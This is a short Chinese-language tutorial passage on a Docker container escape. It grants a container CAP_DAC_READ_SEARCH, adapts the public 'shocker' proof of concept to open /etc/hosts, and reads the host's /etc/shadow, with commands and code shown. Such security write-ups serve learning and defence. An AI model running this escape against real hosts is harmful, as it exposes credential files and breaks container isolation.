 启动如下docker并查看其capability：

```
$ docker run -itd --cap-add CAP_DAC_READ_SEARCH ubuntu /bin/bash
35a80d6e81bdebbc14e2d338c960e8a2131c1b6a72356bd4075313348b5f7b30
$ docker top 35
UID   PID    PPID   C    STIME    TTY     TIME      CMD
root  1154   1120   0    03:04    pts/0   00:00:00  /bin/bash
$ getpcaps 1154
Capabilities for `1154': = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
```

看到该容器内已经有了`cap_dac_read_search`的权限。

下载 https://github.com/gabrtv/shocker 中的shocker.c的poc，更改shocker.c中 `.dockerinit` 文件为 `/etc/hosts`：

```c
// get a FS reference from something mounted in from outside
if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
  die("[-] open");
// 更改如下，这个文件需要和宿主机在同一个挂载的文件系统下，而高版本的.dockerinit已经不在宿主机的文件系统下了。
// 但是/etc/resolv.conf,/etc/hostname,/etc/hosts等文件仍然是从宿主机直接挂载的，属于宿主机的文件系统。
if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
  die("[-] open");
```

编译后，docker cp到容器内运行，结果为容器中访问到了**宿主机的/etc/shadow文件**。

![shocker攻击并获取宿主机文件](images/shocker-attack.png)
